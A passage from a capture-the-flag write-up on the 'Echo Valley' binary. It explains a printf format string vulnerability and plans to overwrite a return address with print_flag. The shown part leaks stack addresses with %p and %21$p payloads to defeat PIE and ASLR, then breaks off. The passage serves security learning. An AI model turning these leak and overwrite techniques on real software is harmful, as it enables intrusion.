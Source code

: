     - The `printf(buf)` line does not sanitize the input, allowing potential exploitation via format string attacks (e.g., printing memory addresses or causing unintended behavior).
- The program exits after the user types "exit" or EOF is detected.

We are given a `print_flag` function which is defined but never called anywhere. We will likely need to use the format string vulnerability to call the `print_flag` function. 

Looking back at the `checksec` output, we can see that PIE or Position Independent Executable is enabled. Due to this, we will need to leak relevant addresses from the stack using the format string vulnerability and calculate addresses at runtime. 

## The Plan
Our goal is to ultimately overwrite the return address of the `echo_valley` function with the address of the `print_flag` function. 

1. We can leak the current return address of the `echo_valley` function and find the offset between that assembly instruction and the beginning of the `print_flag` function.
2. We can leak the saved EBP on the stack so we can calculate the stack address of the return address of the `echo_valley`
3. Finally, we can use the format string vulnerability with the following format specifiers
	- `%n`: Treats argument as a 4-byte integer
	- `%hn` : Treats argument as a 2-byte short integer. Overwrites only 2 significant bytes of the argument.
	- `%hhn` : Treats argument as a 1-byte char type. Overwrites the least significant byte of the argument.
## The Execution
### Step 1
Let's experiment with the program to try to leak the return address of the `echo_valley` function. We can input `"%p " * 30` to see if the return address was leaked.
Looking at the disassembly of main, 
```
0000000000001401 <main>:
    1401:	f3 0f 1e fa          	endbr64
    1405:	55                   	push   %rbp
    1406:	48 89 e5             	mov    %rsp,%rbp
    1409:	b8 00 00 00 00       	mov    $0x0,%eax
    140e:	e8 f4 fe ff ff       	call   1307 <echo_valley>
    1413:	b8 00 00 00 00       	mov    $0x0,%eax
    1418:	5d                   	pop    %rbp
    1419:	c3                   	ret
```
we can see that the return address of the `echo_valley` function should end with `0x413`.

Now, lets try running the program.
```
└─$ ./valley
Welcome to the Echo Valley, Try Shouting: 
%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
You heard in the distance: 0x7fff0d375840 (nil) (nil) 0x564f3e80d70a 0x4 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0xa70 (nil) 0x20b451e5d7f01600 0x7fff0d375a70 0x564f385ff413 0x1 0x7fad29518d68 0x7fff0d375b70 0x564f385ff401 0x1385fe040 0x7fff0d375b88 0x7fff0d375b88 0xc06b06d02c04c09 (nil)
```
Looking at the output, we can see that the 21st value returned, `0x564f385ff413`, ends with `0x413`. So we can input `%21$p` to only print the 21st value on the stack. 
```
└─$ ./valley
Welcome to the Echo Valley, Try Shouting: 
%21$p
You heard in the distance: 0x564d3f9bd413
```
Notice, that the value is different every time the executable is run since ASLR or Address Space Layout Randomization is enabled. This is why we need to leak this value from the stack. 
